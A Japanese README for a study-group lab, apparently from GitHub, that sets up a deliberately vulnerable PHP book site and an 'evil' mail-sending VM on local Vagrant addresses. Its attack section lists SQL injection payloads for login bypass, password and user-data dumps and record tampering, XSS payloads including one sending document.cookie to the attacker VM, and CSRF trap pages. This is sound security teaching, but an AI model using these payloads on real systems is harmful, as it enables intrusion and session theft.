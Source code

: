 # TBKHACK-DEMO
====

勉強会で利用したWebアプリケーション脆弱性攻撃用サイトです。  
SQLインジェクションやXSSを攻撃しやすく作ってますので、構成等はめちゃくちゃですｗ  


## 脆弱性サイト構築手順

Virtual BoxとVagrantで作っていきます。  
事前にインストールしておいてください。  
手順はMacOSのみです。  

（Macにて）
* vagrant用ディレクトリ作成と移動
```sh
mkdir ~/dev/vagrant/tbk-demo && cd $_
```
* vagrant boxのtbkと名付けてダウンロード
```sh
vagrant box add tbk http://opscode-vm-bento.s3.amazonaws.com/vagrant/virtualbox/opscode_centos-6.7_chef-provisioner
```
 box追加確認

 ```sh
 vagrant box list
 ```
※ tbkあったらOKです。

* vagrant初期化
```sh
vagrant init tbk
```

* vagrantfileを修正  
  ```sh
  vim vagrantfile
  ```

  ```
  ...

    # Create a private network, which allows host-only access to the machine
    # using a specific IP.
     config.vm.network "private_network", ip: "192.168.33.10"

     ...
   ```
* 仮想マシンの起動
```sh
vagrant up
```

* 仮想マシンへのログイン
```sh
vagrant ssh
```

(仮想マシンにて)

* パッケージ更新
  ```sh
  sudo yum update
  ```

* Apacheのインストール
  ```sh
  sudo yum install -y httpd
  ```

* MySQLのインストール
```sh
sudo yum install http://dev.mysql.com/get/mysql-community-release-el6-5.noarch.rpm
sudo yum install mysql-server
```

* PHP5.5のインストール
```sh
sudo rpm -Uvh http://dl.fedoraproject.org/pub/epel/6/x86_64/epel-release-6-8.noarch.rpm
sudo rpm -Uvh http://rpms.famillecollet.com/enterprise/remi-release-6.rpm
yum install --enablerepo=remi --enablerepo=remi-php55 pphp php-mbstring php-mysqlnd php-pdo
```

* サービス起動
```sh
sudo service httpd start
sudo service mysqld start
```

* MySQLの設定
```sh
mysql -u root
```
sql/create-table.sqlを実行

* プログラムの登録
/var/www/html配下にTBK-HMを配置

## 悪いサイト構築手順
※ 事前に上記の脆弱性サイトと同じ手順でvagrantを構築。  
　ipアドレスは192.168.33.20とします。  

* 事前準備
vagrant上のCentOSにphp5.5、apache(httpd)は導入。  
evelを/var/www/htmlに配置する。

* postfix導入
```sh
sudo yum install postfix cyrus-sasl-md5 cyrus-sasl-plain
```

* /etc/postfix/main.cf編集
vimなんかのエディタで作成しても、vagrant共有に持ってきてローカルで編集しても構いません。

  ```
  # 116行目　inet_interfaces = localhostを編集
  inet_interfaces = all

  # 119行目　inet_protocols = allを編集
  inet_protocols = ipv4

  # 318行目　以下追加
  relayhost = [smtp.gmail.com]:587
  smtp_use_tls = yes
  smtp_sasl_auth_enable = yes
  smtp_sasl_password_maps = hash:/etc/postfix/sasl_passwd
  smtp_sasl_tls_security_options = noanonymous
  smtp_sasl_mechanism_filter = plain
  smtp_sasl_security_options = noanonymous
  smtp_tls_CApath = /etc/pki/tls/certs/ca-bundle.crt
  ```

* /etc/postfix/sasl_passwd作成
vimなんかのエディタで作成しても、ローカルにsasl_passwdファイルを作ってvagrant共有して
/etc/postfixに配置しても良いです。
ファイルの中身は下記。gmailを想定しています。  
[smtp.gmail.com]:587 example@gmail.com:パスワード

* asl_passwdをsasl_passwdファイルをdb化
```sh
cd /etc/postfix
postmap sasl_passwd
```

* サービス起動
```sh
sudo service postfix start
```

* メール送信テスト  
```sh
sendmail.postfix [メールアドレス]
Subject: [件名]
test
.
```
宛先にメールが送信されたことを確認しましょう。

* /etc/php.ini編集  
vimなんかのエディタで作成しても、vagrant共有に持ってきてローカルで編集しても構いません。  
```
...
[mail function]
; For Unix only.  You may supply arguments as well (default: "sendmail -t -i").
; http://php.net/sendmail-path
sendmail_path = /usr/sbin/sendmail.postfix -t -i
...
```

## 攻撃パターン
### SQLインジェクション
【ログイン認証回避】  
```
http://192.168.33.10/TBK-HM/login.html
```
```
id:100001
pass:' or 'a'='a
```

【パスワード漏えい】   
```
http://192.168.33.10/TBK-HM/list.php?tg=1 union select '','',user_id,password from password
```

【情報漏えい】  
```
http://192.168.33.10/TBK-HM/list.php?tg=1 union select user_name,'',user_email,user_address from user
```

【情報改ざん】  
```
http://192.168.33.10/TBK-HM/list.php?tg=1;update book set bookname='hacking!' where isbn13='978-4041205570'
```

### XSS
[chrome xss-auditor解除]  
ターミナルで実行  
```
open -a Google\ Chrome --args --disable-xss-auditor
```

【alert】  
```
http://192.168.33.10/TBK-HM/confirm.php?isbn13=99999999&isbn10=99999999&bookname=<script>alert(1)</script>&author=aaa
```

【cookie】  
```
http://192.168.33.10/TBK-HM/confirm.php?isbn13=99999999&isbn10=99999999&bookname=<script>alert(document.cookie)</script>&author=aaa
```

【session漏洩】  
```
http://192.168.33.10/TBK-HM/confirm.php?isbn13=9&isbn10=9&bookname=<script>window.location='http://192.168.33.20/sendmail.php?p='%2Bdocument.cookie;</script>&author=aaa
```

【改ざん】  
```
http://192.168.33.20/trap_input.html
```

### CSRF
```
http://192.168.33.20/trap_threat.html
```
